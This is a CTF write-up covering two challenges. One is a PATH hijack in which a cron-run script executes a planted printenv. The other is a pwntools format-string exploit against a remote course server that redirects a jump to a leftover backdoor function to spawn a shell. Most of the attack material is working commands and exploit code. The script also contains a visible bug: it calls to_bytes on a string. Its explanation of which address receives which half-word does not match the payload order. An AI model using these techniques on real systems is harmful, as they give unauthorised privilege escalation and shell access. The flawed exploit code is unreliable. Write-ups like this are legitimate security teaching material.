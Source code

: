 # CTF extra

## British Ponctuality

> First we started by listing the content of the `home/flag_reader` directory and we noticed a script.

```bash
nobody@caea6090734d:/home/flag_reader$ ls
main.c  my_script.sh  reader
nobody@caea6090734d:/home/flag_reader$ cat my_script.sh
#!/bin/bash

if [ -f "/tmp/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /tmp/env | /usr/bin/xargs)
    rm /tmp/env
fi

printenv
exec /home/flag_reader/reader
```

> We noticed that it was using printenv without a path so by changing the path we could exploit this to run our own version of printenv.
>
> Because our script was using /tmp/env to load the environment we created that file to change the $PATH variable.

```bash
nobody@caea6090734d:/tmp$ ls
env last_log 
nobody@caea6090734d:/tmp$ cat env
export PATH=/tmp/:$PATH
```

> Now at /tmp we created a printenv file that was the one that the script will then execute instead of the normal printenv.

```bash
nobody@caea6090734d:/tmp$ echo "cat ../flags/flag.txt" > printenv
```

> When we ran the script with this configuration we still didn't have permissions to access the flag but we noticed that the server was running `cron` to periodically run the script and this `cron` had the permissions to access the flags/flag.txt file.
>
> So after creating our version of printenv we just waited and then in the last_log file there it was the flag.

## FinalFormat

> For this challenge, the backdoor had been removed. But using gdb we were able to see that it was still there

```bash
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
...
0x08049236  old_backdoor
...
```

> So our idea was to try to change the flow of the program so that it would jump to the old_backdoor function and therefore access the flag.
>
> We then run `checksec` on the program to see what type of protection it had and we saw that writing in the stack like in the other challenges would be impossible because NX was enabled.

```bash
 /home/seed/Downloads/program'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```

> We then used gdb to find instructions that would use call and jump to another address.
>
> We found a jump in `0x0804c010` so we now needed to change the old_backdoor function address to be at this location so that the code would run the backdoor function to then a shell be launched.
>
>Using format string vulnerabilities we created this exploit where we write the address of the backdoor `0x08049236` into the `0x0804c010` position in memory so that when the jump to this is called the program will jump to the backdoor function and execute it allowing for a shell to be launched.

```py
from pwn import *

LOCAL = False

if LOCAL:
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4007)

#0x08049236  old_backdoor

N = 60
content = bytearray(0x0 for i in range(N))

content[0:4]  =  ("....").to_bytes(4, byteorder='little')
content[4:8]  =  (0x0804c012).to_bytes(4, byteorder='little')
content[8:12]  =  ("....").encode('latin-1')
content[12:16]  =  (0x0804c010).to_bytes(4, byteorder='little')

s = "%.2036x" + "%hn" + "%.35378x%hn"

fmt  = (s).encode('latin-1')
content[16:16+len(fmt)] = fmt

p.recvuntil(b"here...")
p.sendline(content)
p.interactive()
```

> We had to arrange a different way of writing `0x08049236` because using the normal way of `%nrofcharsx%1$n` would take a lot of time because `0x08049236` is 134517302 in decimal. So we used `%hn` to write into 2 bytes instead of 4. Therefore we would need to write `0x0804` to  `0x0804c010` and `0x9236` to  `0x0804c012`. We also use `....` as placeholder because `%x` performs a jump in the stack and therefore we would loose important content.
>
> The value 2036 appears because `0x0804` = 2052 but we have 16 bytes already written to the content. The value 35378 appears because `0x9236` = 37430 but we have already written 2052 bytes.
>
> After running this python file a shell was launched and to get the flag we just executed :

```bash
cat flag.txt
````
